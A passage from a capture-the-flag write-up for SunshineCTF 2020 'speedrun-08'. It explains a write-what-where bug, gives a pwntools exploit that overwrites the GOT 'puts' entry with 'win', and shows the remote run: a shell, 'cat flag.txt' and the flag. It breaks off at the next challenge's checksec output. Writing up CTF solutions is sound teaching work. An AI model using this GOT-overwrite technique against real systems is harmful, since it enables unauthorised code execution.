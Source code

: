`main` is basically just a _write-what-where_, i.e., you can write any 64-bit value you like in any RW segment.  And, well, the GOT (Global Offset Table) `puts` entry is an easy target, just replace with `win` and get a shell when `puts("hi")` is called.

Our write is relative to `target` (a global variable), so just subtract the `target` address from the `puts` address and divide by 8 to compute the _where_.  The _what_ is just `win`.

### Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall_08')

if not args.REMOTE:
    p = process(binary.path)
else:
    p = remote('chal.2020.sunshinectf.org', 30008)

p.sendline(str((binary.got.puts - binary.sym.target) // 8))
p.sendline(str(binary.sym.win))
p.interactive()
```

Output:

```bash
# ./exploit_08.py REMOTE=1
[*] '/pwd/datajerk/sunshinectf2020/speedrun-08/chall_08'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to chal.2020.sunshinectf.org on port 30008: Done
[*] Switching to interactive mode
$ id
uid=1000(chall_08) gid=1000(chall_08) groups=1000(chall_08)
$ ls -l
total 12
-rwxr-xr-x 1 root root     6816 Nov  7 07:49 chall_08
-rw-r----- 1 root chall_08   30 Nov  7 08:51 flag.txt
$ cat flag.txt
sun{fiction-fa1a28a3ce2fdd96}
```


## speedrun-09

### Checksec
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
